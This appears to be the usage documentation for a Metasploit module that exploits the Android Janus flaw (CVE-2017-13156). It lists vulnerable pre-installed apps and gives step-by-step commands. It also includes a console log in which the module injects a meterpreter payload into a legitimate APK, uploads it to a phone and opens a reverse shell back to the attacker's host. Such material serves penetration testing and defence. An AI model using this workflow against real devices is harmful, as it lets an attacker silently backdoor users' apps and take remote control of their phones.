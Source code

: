 ## Description

This module exploits CVE-2017-13156 in Android to install a payload into another
application. The payload APK will have the same signature and can be installed
as an update, preserving the existing data.
The vulnerability was fixed in the 5th December 2017 security patch, and was
additionally fixed by the APK Signature scheme v2, so only APKs signed with
the v1 scheme are vulnerable.

## Confirmed Vulnerable Apps

The following table shows known vulnerable apps either pre-installed on a phone or available to download.

| Package                                 | Version        | From Phone                               | Size | MD5 |
|-----------------------------------------|----------------|------------------------------------------|------|-----|
| com.google.android.googlequicksearchbox |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |
| com.ume.browser.northamerica (Browser)  | v3.42.21161215 | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |
| com.phonegap.camerasample               |                |                                          |      |     |
| com.android.vending (Google play store) |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |
| com.apptap.appfinder.tracfone           |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |
| com.tracfone.generic.downloaderapp      |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |

## Hostile Apps

This table shows apps which seemed to work (injected, installed without error) but had adverse effects.  These apps
should typically be avoided unless tested.

| Package                                 | Version        | From Phone                               | Size | MD5 | Issue |
|-----------------------------------------|----------------|------------------------------------------|------|-----|-------|
| com.google.android.youtube              |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |       |
| com.android.launcher3                   |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |       |
| com.instagram.android                   |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |       |
| com.google.android.music                |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |       |
| com.google.android.apps.docs            |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |       |
| com.google.android.apps.maps            |                | Stock ZTE Z798BL Android 6.0.1 tracphone |      |     |       |



## Vulnerable Application

This module will only work on applications that are signed with only the v1 signature scheme. You can verify which signing scheme an APK is signed with using the `apksigner` tool in the Android SDK:

```
$ apksigner verify -verbose notvulnerable.apk
Verifies
Verified using v1 scheme (JAR signing): true
Verified using v2 scheme (APK Signature Scheme v2): true
Number of signers: 1

$ apksigner verify -verbose vulnerableapplication.apk
Verifies
Verified using v1 scheme (JAR signing): true
Verified using v2 scheme (APK Signature Scheme v2): false
Number of signers: 1
```

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  4. Start a handler with `exploit/multi/handlers`
  5. Do: `use exploit/android/local/janus`
  6. Do: `set session [session]`
  7. Do: `check`
  8. Do: `run`
  9. On the phone, a new screen will ask about installing the updated app, say yes/ok, then open the app.
  10. You should get a new session.

## Options

  **PACKAGE**

  Select a package to infect.  A list of packages can be obtained by running `app_list` on meterpreter.  Using `ALL` will
  loop through all packages and attempt to exploit them until successful.  This can take a while, and cause lots of data to be
  transferred.  Default is `com.phonegap.camerasample`

## Scenarios

### com.phonegap.camerasample on Nexus 6p with November 2016 Security Patch

Install [com.phonegap.camerasample](https://github.com/heavysixer/phonegap-camera-sample/blob/master/bin/CameraSample.apk)

An `exploit/multi/handler` was started prior to exploitation.

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf5 exploit(multi/handler) > use exploit/android/local/janus
msf5 exploit(android/local/janus) > set PACKAGE com.phonegap.camerasample
PACKAGE => com.phonegap.camerasample
msf5 exploit(android/local/janus) > set SESSION 1
SESSION => 1
msf5 exploit(android/local/janus) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf5 exploit(android/local/janus) > set LPORT 4445
LPORT => 4445
msf5 exploit(android/local/janus) > run

[*] Downloading APK: /data/app/com.phonegap.camerasample-1/base.apk
[*] Decompiling original APK..
[*] Decompiling payload APK..
[*] Locating hook point..
[*] Adding payload as package com.phonegap.camerasample.syerq
[*] Loading /tmp/d20190824-7164-qydvgj/original/smali/com/phonegap/camerasample/CameraSampleActivity.smali and injecting payload..
[*] Rebuilding apk with meterpreter injection as /tmp/d20190824-7164-qydvgj/output.apk
[*] Uploading APK: /sdcard/app.apk
[*] APK uploaded
msf5 exploit(android/local/janus) >
```
Please note that the user will need to manually accept the install prompt on the device (and also open the application) before a new session is opened.

```
[*] Sending stage (72609 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800

msf5 exploit(android/local/janus) > sessions 2
[*] Starting interaction with 2...

meterpreter > pwd
/data/user/0/com.phonegap.camerasample/files

```



